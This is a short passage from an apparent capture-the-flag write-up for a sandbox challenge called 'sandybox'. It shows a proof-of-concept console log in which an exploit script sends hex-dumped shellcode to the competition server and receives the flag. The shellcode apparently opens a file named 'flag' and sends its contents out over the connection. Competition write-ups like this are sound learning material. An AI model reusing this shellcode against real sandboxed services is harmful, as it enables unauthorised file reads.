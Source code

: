 
## POC:

```console
$ sudo python3 exp.py REMOTE
[sudo] password for k: 
[*] '/home/k/sandboxy/sandybox'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
[+] Opening connection to sandybox.pwni.ng on port 1337: Done
10
[DEBUG] Sent 0x3b bytes:
    00000000  68 e8 03 00  00 5a 31 c0  0f 05 90 90  90 90 90 90  │h···│·Z1·│····│····│
    00000010  90 48 c7 c0  08 00 00 00  cc 68 66 6c  61 67 6a 02  │·H··│····│·hfl│agj·│
    00000020  58 48 89 e7  31 f6 99 0f  05 41 ba ff  ff ff 7f 48  │XH··│1···│·A··│···H│
    00000030  89 c6 6a 28  58 6a 01 5f  99 0f 05                  │··j(│Xj·_│···│
    0000003b
[+] Receiving all data: Done (84B)
[DEBUG] Received 0x6 bytes:
    b'o hai\n'
[DEBUG] Received 0x4e bytes:
    b'> PCTF{bonus_round:_did_you_spot_the_other_2_solutions?}\n'
    b'so long, sucker 0x8b\n'
[*] Closed connection to sandybox.pwni.ng port 1337
```